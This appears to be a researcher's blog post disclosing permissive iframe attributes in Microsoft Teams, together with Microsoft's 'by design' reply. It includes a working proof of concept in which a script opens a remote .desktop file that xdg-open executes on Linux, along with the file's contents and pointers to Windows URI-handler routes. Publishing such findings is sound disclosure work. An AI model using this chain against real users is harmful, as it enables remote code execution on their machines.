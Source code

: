 ```yaml
---
layout: post
title:  "Microsoft Teams Vulnerabilities and Features!"
description: Lets talk about Microsoft Teams?.
tags: Research
---
```

# Microsoft Teams ~~Vulnerabilities~~ Features! 

In this article, I will gonna talk about research that me and my friends Bigous, Waid, and Bee made in Microsoft Teams a few time ago. This research, although it did not become a bounty, was a very interesting experience that taught us a lot about researching hardened software.

# Iframe
The Iframe, how it works, and the possible vulnerabilities that we can find in this tag is the main part of this entire research. 

While looking for interesting features in the application, we've got the feature of adding websites to add a site for other users to see. So, we decided to take a look into this iframe code:
```html
<iframe ng-if="ctrl.frame && ctrl.frame.type == 'iframe' && ctrl.frame.ready" ng-class="{'embedded-iframe-loading': ctrl.showLoadingIndicator}" title="" class="embedded-iframe embedded-page-content" name="embedded-page-container" sandbox="allow-forms allow-modals allow-popups allow-popups-to-escape-sandbox allow-pointer-lock allow-scripts allow-same-origin allow-downloads" allow="geolocation *; microphone *; camera *; midi *; encrypted-media *" data-tid="embeddedPageContainerIframe" acc-tabbable="true" allowfullscreen="" src="//website.com"></iframe>
```
As you can see, this iframe has a few interesting attributes, being the most interesting: 
- The allow attribute with the values "geolocation *; microphone *; camera *; midi *; encrypted-media *"
- The sandbox attribute with the value "allow-popups-to-escape-sandbox"

So, let's talk about what each of these attributes does exactly.

## The allow attribute
Now, if you are not a web developer you are possibly wondering what the allow attribute does. This specifies a resource policy for the iframe, i.e., it specifies which permissions can be passed from the scope of the parent site to the iframe.

As said before we can abuse the allow attribute: `allow="geolocation *; microphone *; camera *; midi *; encrypted-media *"` to gain access to the browser APIs. The problem is that when a site inside the iframe asks for authorization to access these devices, the authorization request comes from 'teams.microsoft.com', not from the iframe's website, usually by using teams calls the user has already given these authorizations, so a site inside the iframe can have access to those APIs without permission.


## The sandbox attribute
The sandbox attribute has the value “allow-popups-to-escape-sandbox” set, which means that we can use popups out of the iframe scope, enabling us to escape the sandbox! The popups can be called with the function window.open(), this basically will open another tab in the Teams scope, but this can't only be used to open common URLs, we can use it to open up other applications instead of the system’s default browser eg: calculator://, mailto://, ms-word://... We can also try to manipulate the DOM and try to do some tricks like seen [here][ms-teams-rce], but we are "blocked" from accessing the DOM, limiting a lot the attack surface. 

![](https://i.imgur.com/0mQElWs.png)

### URI schemas

The first thing I think in this type of attack exploring URI schemas is to try to use the file:// protocol, and that's what we tried as soon we realized this possible attack vector, and obviously that doesnt work, this protocol was blocked in the electron, so we need try for another way. Another really cool idea is to use the smb:// protocol to possibly get RCE in the victim or to steal him NTLM hash, but that's disabled too.

After a few time researching about URI protocol schemas, we've found [this article][positive-security], I really recommend that you read it, because that shows us a lot of tricks to use in situations like this.

### RCE on Linux?

From the cited article, the idea of using xdg-open to call a remote .desktop, thus executing code on the victim's machine seemed like a very interesting one, and that what we did. So, when our victim access the application part with the Iframe, we've successfully Remote Code Execution (in a good part of linux distros).

When we use window.open() pointing to some website with a ‘.desktop’ file, it gets executed, running the command described in the file, for the PoC, we just used the gnome-calculator command, that in a real scenario, could be a malicious Linux command.

![](https://i.imgur.com/QguuccH.png)

Code used in Website:
```htmlembedded=
<script>
window.open('https://yourwebsite.com/poc.desktop')
</script>
```

"poc.desktop" contents:
```htmlembedded=
Desktop Entry]
Version=1.0
Type=Application
Name=RCE
Comment=
Exec=gnome-calculator
Icon=
Path=
Terminal=false
StartupNotify=false
```

### And on Windows?

For obvious reasons the xdg-open will not work in Windows, so we need a different approach to get RCE in it. Unfortunately, we have tried everything on Windows, but we didn't find anything that can lead to a 0 click RCE on Microsoft Teams running on Windows.

But we can already get Remote Code Execution by exploiting vulnerabilities in third-party applications, like [this vulnerability in steam's protocol][steam], [this vulnerability in WinSCP][winscp] or even the CVE 2021-40444 in Microsoft Word.

And we can also use Click-Once applications with 'microsoft-edge://' protocol to get a 1 click RCE, but I will not go deeper into this.

# Microsoft's response

After about a month that we've contacted Microsoft, they've sent us an email with this message:

In this case this would be by design functionality. The users are allowed to load external content in that location as a feature. The inability to access the DOM limits the actions of the attacker. We do note, that the window could be clearer in starting that it is external content, and we have forwarded this information over to the product's functional team for review for future versions. For now we are closing this case out as this is currently how this function is intended to work.

# Conclusion

Although Microsoft says it doesn't see this as a security issue, it was a very fun, and very unusual, learning experience that forced me to study a widely used and hardened application.


# References:
1. https://positive.security/blog/url-open-rce
2. https://0x00sec.org/t/using-uri-to-pop-shells-via-the-discord-client/11673
3. https://www.iana.org/assignments/uri-schemes/uri-schemes.xhtml
4. https://github.com/oskarsve/ms-teams-rce
5. https://docs.microsoft.com/visualstudio/deployment/publishing-clickonce-applications

[ms-teams-rce]: https://github.com/oskarsve/ms-teams-rce
[positive-security]: https://positive.security/blog/url-open-rce
[steam]: http://revuln.com/files/ReVuln_Steam_Browser_Protocol_Insecurity.pdf
[winscp]: https://nvd.nist.gov/vuln/detail/CVE-2021-3331
